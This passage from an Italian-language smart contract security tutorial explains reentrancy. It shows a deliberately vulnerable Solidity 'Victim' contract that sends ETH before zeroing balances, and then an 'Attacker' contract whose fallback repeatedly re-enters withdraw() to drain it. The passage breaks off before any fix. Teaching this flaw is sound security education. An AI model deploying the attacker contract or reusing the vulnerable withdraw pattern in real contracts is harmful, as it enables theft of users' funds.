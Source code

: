 Considera un contratto intelligente semplice ('Victim') che consenta a chiunque di depositare e prelevare Ether:

```solidity
// Questo contratto è vulnerabile. Non utilizzarlo in produzione

contract Victim {
    mapping (address => uint256) public balances;

    function deposit() external payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() external {
        uint256 amount = balances[msg.sender];
        (bool success, ) = msg.sender.call.value(amount)("");
        require(success);
        balances[msg.sender] = 0;
    }
}
```

Questo contratto espone una funzione `withdraw()` per consentire agli utenti di prelevare gli ETH precedentemente depositati nel contratto. Elaborando un prelievo, il contratto esegue le seguenti operazioni:

1. Controlla il saldo di ETH dell'utente
2. Invia i fondi all'indirizzo chiamante
3. Ripristina il loro saldo a 0, impedendo ulteriori prelievi dall'utente

La funzione `withdraw()` nel contratto `Victim` segue uno schema di "controlli-interazioni-effetti". _Verifica_ se le condizioni necessarie per l'esecuzione sono soddisfatte (cioè, se l'utente ha un saldo di ETH positivo) ed esegue l'_interazione_ inviando gli ETH all'indirizzo del chiamante, prima di applicare gli _effetti_ della transazione (cioè, ridurre il saldo dell'utente).

Se `withdraw()` viene chiamato da un conto posseduto esternamente (EOA), la funzione si esegue come previsto: `msg.sender.call.value()` invia gli ETH al chiamante. Tuttavia, se `msg.sender` è un conto del contratto intelligente e chiama `withdraw()`, inviare i fondi utilizzando `msg.sender.call.value()` innescherà anche l'esecuzione del codice archiviato a quell'indirizzo.

Immagina che questo sia il codice distribuito all'indirizzo del contratto:

```solidity
 contract Attacker {
    function beginAttack() external payable {
        Victim(victim_address).deposit.value(1 ether)();
        Victim(victim_address).withdraw();
    }

    function() external payable {
        if (gasleft() > 40000) {
            Victim(victim_address).withdraw();
        }
    }
}
```
